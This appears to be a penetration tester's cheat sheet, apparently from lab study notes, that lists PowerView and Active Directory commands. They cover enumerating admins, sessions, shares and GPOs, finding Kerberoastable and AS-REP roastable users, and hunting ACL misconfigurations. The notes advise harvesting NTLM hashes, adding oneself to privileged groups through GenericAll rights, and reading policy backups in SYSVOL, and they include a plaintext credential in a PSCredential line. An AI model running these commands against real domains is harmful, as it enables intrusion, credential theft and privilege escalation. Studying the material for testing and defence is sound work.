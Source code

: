 ```bash
> Get-NetGroup | select cn
# Get the groups of a user
> Get-NetGroup -Username "jeff"
# See who are admins
> Get-NetGroupMember -GroupName *admin* -Recurse
# Look through the different shares
> Invoke-ShareFinder
# Get the group policies, important one
> Get-NetGPO
# Narrowing down the above
> Get-NetGPO | select displayname, whenchanged
# Find out if you have admin privileges on any computers in the domain
> Find-LocalAdminAccess # May take a few minutes
# See who's logged in & other info
> Get-NetSession -ComputerName web04 -Verbose # Untrustable on Windows 11
# This is more reliable, look for admins to be logged on machines, either to collect their NTLM hash or to impersonate commands running as him
> .\PsLoggedOn.exe \\file04
# Another way to get logged on users, needs local admins rights
> Get-NetLoggedOn -ComputerName <servername>
# We can obtain the IP address and port number of applications running on servers integrated with AD by simply enumerating all SPNs in the domain, meaning we don't need to run a broad port scan
> Get-NetUser -SPN | select samaccountname,serviceprincipalname
# See if we can perform an AS-REP Roast on any users
> Get-NetUser -PreauthNotRequired
# Get Kerberoastable Users
> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
# Attempt to resolve SPN's IP
> nslookup.exe web04.corp.com # Typically located in C:\Tools\
# Enumerate ACEs, filtering on an identity
> Get-ObjectAcl -Identity stephanie # Look for AD Rights, SIDs. SID has AD Rights to SID
> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
# Convert SIDs to domain object name
> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
# Clean output, look for all users with General All Rights for either a user or group object, can change permissions and change their passwords if user
# DO THIS RECURSIVELYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
> Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights # Can also do this for GenericWrite,WriteOwner,WriteDACL,AllExtendedRights,ForceChangePassword,Self (Self-Membership)
# Easier way to do the above
> Find-InterestingDomainAcl # If you are GenericAll or Write privs, then you should simply add yourself to the group and inherit the rights associated 'net group "group_name" jimothy /add /domain', then rinse and repeat. Elevate your privileges as much as possible
# Convert multiple SIDs to readable objects at once
> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName # If a regular user has these rights, this is likely a misconfiguration.. and should be prioritized
# Find shares in the domain
> Find-DomainShare # -CheckShareAccess to only display shares available to us
> ls \\dc1.corp.com\sysvol\corp.com\
> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
> Get-ADUser -Identity Christopher.Lewis -Properties *
> Get-DomainGroup -Identity "developers" -Properties * -Recurse -credential $cred
> $SecPassword = ConvertTo-SecureString 'Nagoya2023' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('NAGOYA-IND\Christopher.Lewis', $SecPassword);
> Get-DomainUser -Credential $Cred
> Get-DomainGroup -Credential $Cred
> get-domaingroup | Get-DomainGroupMember -Recurse
> Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```